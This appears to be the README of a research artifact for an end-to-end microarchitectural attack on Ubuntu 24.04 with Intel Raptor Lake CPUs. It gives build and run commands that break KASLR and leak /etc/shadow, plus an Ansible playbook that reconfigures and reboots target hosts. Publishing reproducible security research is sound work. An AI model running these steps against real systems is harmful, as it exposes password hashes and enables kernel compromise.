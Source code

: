 # End-to-End Attack

End-to-end attack against Ubuntu 24.04 kernel version 6.8.0-47-generic on an Intel Raptor Lake processor.
For the attack to work on other distros or kernel versions, you need to adapt the gadget addresses in `kaslr.c` and `attack.c`.
Furthermore, the attack currently only searches about 32GiB of memory when looking for the reload buffer, physmap and `/etc/shadow`.
If your system memory is larger, you need to increase `MEMORY_SIZE` in `attack.c` accordingly.


## Reproduce

The output is stored in [out](./out).

>[!TIP]
> The attack was specifically designed for Intel Raptor Lake processors.
> However, thanks to our artifact evaluators, we know that the attack also works on Xeon silver 4514Y (and subsequently our Xeon Silver 4510).
> Since the attack expects 48-bit address spaces (although this is not in general a hard requirement), we need to add `no5lvl` to the kernel commandline on these processors.

### Ansible

> [!WARNING]
> The ansible playbook modifies the target system without requesting confirmation to ensure default Linux mitigations are applied in GRUB kernel commandline. The target system will also be repeatedly rebooted between attack runs to ensure KASLR is re-randomized.

```bash
ansible-playbook run.yaml -e host=<hostname>
```

## Manual


Run the end-to-end attack
```bash
export experiment_core=2
export OUT_DIR=./out/manual/0/
mkdir -p "$OUT_DIR"

# build
make clean
make

# break KASLR
make run-kaslr CORE=$experiment_core | tee "$OUT_DIR/manual-kaslr.out"
# this will print KASLR offset: <kaslr_offset> with the value needed in the next steps

# leak /etc/shadow
make run-shadow KASLR_OFFSET=<kaslr_offset> CORE=$experiment_core | tee "$OUT_DIR/manual-shadow.out"
```

Benchmark the leak bandwidth.
```bash
# load the secret kernel module for benchmarking the leak bandwidth
make -C ../uarch-research-fw/kmod_secret/ install

make run-benchmark KASLR_OFFSET=<kaslr_offset> CORE=$experiment_core | tee "$OUT_DIR/manual-benchmark.out"
```


## Analyze

It is extremely likely that your system uses a different root password hash than ours.
To make the analysis script work, you should replace `ROOT_HASH` in `analyze.py` with the first line of your `/etc/shadow`.
You can use `sudo cat /etc/shadow` to get the contents of your shadow file.

```bash
python3 analyze.py
```

The results are printed to the console.

### Expected Results

We expect the attack to work successfully in a high number of cases (>90%) with a leak rate of over 5KiB/s in the median.
